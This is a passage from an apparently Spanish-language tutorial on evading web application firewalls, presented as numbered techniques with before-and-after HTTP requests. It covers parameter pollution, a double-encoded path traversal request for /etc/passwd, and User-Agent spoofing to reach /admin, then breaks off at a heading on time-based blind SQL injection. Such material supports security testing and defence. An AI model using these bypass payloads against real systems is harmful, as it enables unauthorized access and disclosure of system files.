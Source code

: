 ## 7. Contaminación de Parámetros

**Cómo hacerlo:**  
Envía múltiples parámetros con el mismo nombre en una sola solicitud para confundir al WAF o la aplicación web.

**Solicitud original bloqueada:**
```bash
GET /search?q=malicious_query
```

**Actualizado con contaminación de parámetros:**
```bash
GET /search?q=benign_query&q=malicious_query
```

## 8. Recorrido de Rutas con Doble Codificación

**Cómo hacerlo:**  
Utiliza doble codificación para eludir las reglas del WAF que solo verifican secuencias codificadas una vez.

**Solicitud original bloqueada:**
```bash
GET /../../etc/passwd
```

**Actualizado con doble codificación:**
```bash
GET /%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

## 9. Personalización de Encabezados User-Agent o Referrer

**Cómo hacerlo:**  
Modifica el encabezado User-Agent o Referrer para evadir las reglas del WAF que pueden aplicar reglas diferentes según estos encabezados.

**Solicitud original bloqueada:**
```bash
GET /admin HTTP/1.1
User-Agent: NormalBrowser
```

**Actualizado con un User-Agent personalizado:**
```bash
GET /admin HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
```

## 10. Inyección SQL Basada en Tiempo (Inyección SQL a Ciegas)

**Cómo hacerlo:**  
Usa demoras de tiempo en la inyección SQL para inferir información de la base de datos sin recuperar datos directamente.
